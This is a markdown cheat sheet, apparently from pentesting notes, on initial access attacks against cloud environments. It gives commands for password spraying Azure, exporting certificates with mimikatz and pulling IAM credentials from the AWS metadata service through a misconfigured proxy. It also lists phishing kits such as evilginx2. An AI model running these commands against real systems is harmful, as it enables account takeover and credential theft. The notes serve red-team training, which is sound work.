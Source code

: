 # Initial access attacks
## Public storage
## Find data in public storage
- https://github.com/initstring/cloud_enum can scan all three cloud services for multiple services.

#### Public azure blobs
- https://github.com/NetSPI/MicroBurst
```
Invoke-EnumerateAzureBlobs –Base <base name>
```

#### Public AWS blobs
- https://github.com/RhinoSecurityLabs/pacu

#### Public Google Storage Buckets
- https://github.com/initstring/cloud_enum

## Key disclosure in public repositories
- Scavange repos for keys
- Find keys in realtime: https://github.com/eth0izzle/shhgit
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog

### Gitleaks
- https://github.com/zricethezav/gitleaks
#### Search for secrets
```
./gitleaks detect -v source ~/tools/gitleaks/
```

#### Use web browser to view the commit
```
https://github.com/[git account]/[repo name]/commit/[commit ID]
```

## Password attacks
- Credential stuffing (databreaches)
- Password spraying

#### Password spraying Azure
- https://github.com/dafthack/MSOLSpray
- https://github.com/ustayready/fireprox
```
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList validemails.txt -Password <PASSWORD> -Verbose
```

## Web server exploitation
- Here are some generic things ot look for:
  - Out of date web technologies with known vulns
  - SQL or command injection vulns
  - Server-side-request forgery (SSRF)
- Good place to start post shell:
  - Creds in metadata service
  - Certificates
  - Environment variables
  - Storage Accounts


#### Reused access certs as private keys on web servers
1. Comprimise web server
2. Extract certificate with mimkatz
3. Use it to authenticate to Azure
```
mimikatz# crypto::capi
mimikatz# privilege::debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

### AWS Instance Metadata
- Metadata endpoint is hosted on a non routable IP adress at 169.254.169.254
- Can contain access/secret keys to AWS and IAM credentials
- Server compromise or SSRF vulnerabilities might allow remote attackers to reach it.
- IAM credentials can be stored here ```http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>```
- New version requeres token, a put request is send and then responded to with a token. Then that token can be used to query data

#### Instance Metadata Service URL
```
http://169.254.169.254/latest/meta-data
```

#### Additional IAM creds possibly available here

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

- Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

```bash
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

#### IMDS Version 2 has some protections 
- but these commands can be used to access it
```bash
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` 
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```

## Phishing
- Still the #1 method of compromise
- Two primary phishing techniques:
  - Cred harvesting / session hijacking
    -  https://github.com/drk1wi/Modlishka
    -  https://github.com/kgretzky/evilginx2
  - Remote workstation compromise w/ C2

#### Google workspace calendar event injection
- Silently injects events to target calendars
- Bypasses the “don’t auto-add” setting
- Include link to phishing page
- https://www.blackhillsinfosec.com/google-calendar-event-injection-mailsniper/
